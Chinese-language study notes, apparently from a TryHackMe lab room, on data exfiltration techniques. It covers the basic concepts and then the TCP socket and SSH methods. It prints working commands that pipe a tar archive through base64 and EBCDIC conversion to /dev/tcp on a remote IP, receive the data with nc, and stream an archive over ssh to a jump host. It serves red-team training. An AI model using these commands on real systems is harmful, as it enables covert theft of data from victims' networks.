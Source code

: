 # Data Exfiltration

前面几章之前就已经顺手学过了，就不做笔记了，来看看有意思数据外泄

---

网络犯罪分子出于不同的目的对公司使用各种互联网攻击。在大多数情况下，其中许多攻击都以数据泄露告终，威胁行为者窃取敏感数据以在暗网上出售或在线发布。

有人可能会问：威胁行为者如何在不被发现的情况下将被盗数据从公司的网络传输到外部，也称为数据泄露？答案各不相同。威胁参与者可以执行许多技术，包括数据泄露。

数据泄露是一种非传统方法，用于将数据从受感染的计算机复制和传输到攻击者的计算机。数据泄露技术用于模拟正常的网络活动，它依赖于DNS，HTTP，SSH等网络协议。 通过通用协议进行的数据泄露很难检测和区分合法流量和恶意流量。

某些协议并非旨在通过它们传输数据。但是，威胁参与者会找到滥用这些协议来绕过基于网络的安全产品（如防火墙）的方法。使用这些技术作为红队员对于避免被发现至关重要。

## 网络拓扑

![在这里插入图片描述](https://img-blog.csdnimg.cn/05e1f66d2033410c94c30502932daf0a.png)

---

**数据泄露有三种主要用例场景，包括：**

- 泄露数据
- C2通信。
- 隧道

---

## TCP套接字

使用 TCP 套接字是攻击者可能在非安全环境中使用的数据泄露技术之一，在该环境中，他们知道没有基于网络的安全产品。 如果我们处于安全的环境中，则不建议进行这种渗透。 这种渗透类型很容易检测，因为我们依赖于非标准协议。

![在这里插入图片描述](https://img-blog.csdnimg.cn/e59918fee2144bd7b62cf18d9bc79138.png)

发送数据

```bash
thm@victim1:$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080
```

恢复数据

```bash
nc -vlnp 8080 > task4-creds.data
thm@jump-box:/tmp/$ dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar
```

## SSH

ssh不用多介绍了，老熟人了，什么scp或者直接ssh执行命令

```bash
thm@victim1:$ tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"
```
